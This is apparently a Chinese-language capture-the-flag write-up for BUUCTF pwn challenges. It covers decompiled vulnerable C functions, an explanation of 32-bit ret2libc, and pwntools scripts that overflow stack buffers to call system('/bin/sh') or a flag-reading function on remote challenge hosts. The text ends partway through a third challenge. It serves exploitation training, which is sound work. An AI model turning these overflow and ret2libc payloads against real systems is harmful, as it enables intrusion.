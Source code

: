 # pwn

## jarvisoj_level2
>做题人：郑林均
>url链接：https://buuoj.cn/challenges#jarvisoj_level2

下载文件后放linux用checksec一下

![alt text](image.png)

发现32位的，放进IDA看一下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  system("echo 'Hello World!'");
  return 0;
}
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  system("echo Input:");
  return read(0, buf, 0x100u);
}
```
很容易发现有溢出点buf，read可以读进0x100，而buf只有0x88，再shift加f12，发现bin/sh
![alt text](image-1.png)
PIE保护没开
很容易想到ret2libc，查找bin/sh地址，system地址，可以开始构造payload了


理解什么是ret2libc，利用栈溢出，把程序的执行流劫持到已有的libc函数中，比如system
先理解在汇编语言32位计算机中函数调用的过程
```
.text:08048457 68 40 85 04 08                push    offset command                  ; "echo Input:"
.text:0804845C E8 BF FE FF FF                call    _system
```
可以看到，在调用函数之前，会将函数需要的参数压入栈中，然后调用函数即使用call的时候会，CPU会自动完成“push返回地址”的操作，最后才是进入到被调用函数的逻辑
```
[padding栈溢出直到返回地址] + [system函数地址] + [返回地址] + ["/bin/sh"字符串地址]
```
需要构造返回地址的原因是我们使用的是栈溢出覆盖返回地址从而达到调用函数，不是call指令达成的，因此不会自动完成push操作，所以要手动完成，返回地址可以是main函数或exit函数地址

对于参数“/bin/sh”部分，分为两种情况，即程序中含有该字符串和程序中没有该字符串

如果有该字符串，那么直接指明该字符串的位置即可

如果没有，那么需要直接在栈中写入该参数（一般放在payload的末尾），比如 b"/bin/sh\x00"，然后在payload中指明该参数的位置
```
[padding] + [system函数地址] + [返回地址] + ["/bin/sh"字符串地址] + b"/bin/sh\x00"

```
然后可以开始构造poc
```python
from pwn import*

r=remote('node5.buuoj.cn',29694)

system_adr=0x08048320 
sh_adr=0x0804A024
adr=0x08048480
payload=b'a'*(0x88+4)+p32(system_adr)+p32(adr)+p32(sh_adr)

r.sendline(payload)

r.interactive()

```
得到flag

##  warmup_csaw_2016
>做题人：郑林均
>url链接：[buuctf](https://buuoj.cn/challenges#warmup_csaw_2016)
先放进linux用checkse一下

![alt text](image-2.png)

发现是64位并且什么保护都没开，再放进IDA看看
查看主函数

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s[64]; // [rsp+0h] [rbp-80h] BYREF
  char v5[64]; // [rsp+40h] [rbp-40h] BYREF

  write(1, "-Warm Up-\n", 0xAuLL);
  write(1, "WOW:", 4uLL);
  sprintf(s, "%p\n", sub_40060D);
  write(1, s, 9uLL);
  write(1, ">", 1uLL);
  return gets((__int64)v5);
}
```
发现溢出点，用了gets函数，输入没有限制
然后找获得权限的函数
用shift+f12查看
![alt text](image-3.png)
发现有cat flag.txt
就用这个来获得flag
现在可以开始构造payload了
```python
from pwn import* #引用pwn库

r=remote('node5.buuoj.cn',28399)  #远程链接

system_adr=0x040060D #cat flag.txt函数的地址

payload=b'a'*(0x40+8)+p64(system_adr) //先输入0x40+8个垃圾数据导致其返回地址被覆盖，然后再加入flag函数地址

r.sendline(payload)

r.interactive()

```
得到flag

## jarvisoj_level3

>做题人：郑林均
>url链接：[jarvisoj_level3
1](https://buuoj.cn/challenges#jarvisoj_level3)

先放入linux用checksec一下，发现是32位的，开启了NX保护，然后放进IDA看看，很容易发现溢出点
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  write(1, "Input:\n", 7u);
  return read(0, buf, 0x100u);                  // //溢出点
                                                
}
```




